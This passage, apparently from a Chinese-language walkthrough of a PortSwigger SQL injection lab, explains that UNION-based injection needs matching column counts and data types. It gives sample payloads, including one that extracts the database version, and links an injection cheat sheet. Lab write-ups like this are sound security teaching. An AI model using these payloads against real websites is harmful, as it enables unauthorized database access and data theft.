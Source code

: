 还是之前说的：union前后查询的列数必须保持一致，而且对应列的数据类型必须相同。

如果你填：

```
Gifts' union select 2,1--+
```

或者：

```
Gifts' union select 'aaaaaaaaaaaaaaaa','bbbbbbbbbbbbbb'--+
```

都不行



进一步利用一下：

```
Gifts' union select 1,version()--+
```

![image-20250627000156299](assets/image-20250627000156299.png)

从题目以及描述中看，这一关是让我们从同一列中批量提取数据，因为之前的关卡中都是每一列只能查询到一个数据

不同的数据库使用不同的语法来执行字符串连接，参考SQL注入速查表：

[SQL注入速查表](https://portswigger.net/web-security/sql-injection/cheat-sheet)
